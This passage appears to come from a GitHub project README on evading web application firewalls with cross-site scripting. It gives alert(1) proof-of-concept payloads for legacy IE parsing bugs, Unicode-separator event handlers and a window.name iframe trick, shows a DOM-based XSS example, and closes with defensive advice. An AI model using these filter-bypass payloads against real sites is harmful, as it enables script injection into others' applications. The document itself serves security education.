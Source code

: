 ### Parsing Bugs

Older versions of browsers like **IE7** can be tricked into executing malformed HTML by inserting unexpected characters such as `%`, `//`, or `!`.

```html
<%div style=xss:expression(alert(1))> <!-- Works up to IE7 -->
```

### Unicode Separators

Certain WAFs fail to filter **Unicode separators** like `x0B` that act as spaces. These can be used to bypass event handlers that are normally blocked.

```html
<a/onmouseover[\x0b]=alert(1)> <!-- Using a Unicode

 separator -->
```

### Missing X-Frame Options

Exploiting missing **X-Frame-Options** headers allows attackers to use clickjacking techniques or iframe injections to execute malicious code.

### Window.name Trick

The `window.name` property in iframes can be exploited to inject code when the WAF restricts normal methods of JavaScript injection.

```html
<iframe src="http://target.com" name="javascript:alert(1)"></iframe> <!-- Window.name injection -->
```

---

## DOM-Based XSS

DOM-based XSS occurs when JavaScript takes user input and inserts it into the DOM without proper sanitization. WAFs often fail to block these because they don't intercept client-side processing.

```javascript
var input = location.hash;
document.write(input); <!-- Vulnerable to DOM-based XSS -->
```

---

## Conclusion

WAFs provide a valuable layer of defense, but blacklisting alone is not a sustainable solution. This project highlights the importance of using **whitelisting** and **proper encoding** to secure applications effectively. Developers and security teams should prioritize patching vulnerabilities and ensuring that WAFs are regularly updated with new signatures.

---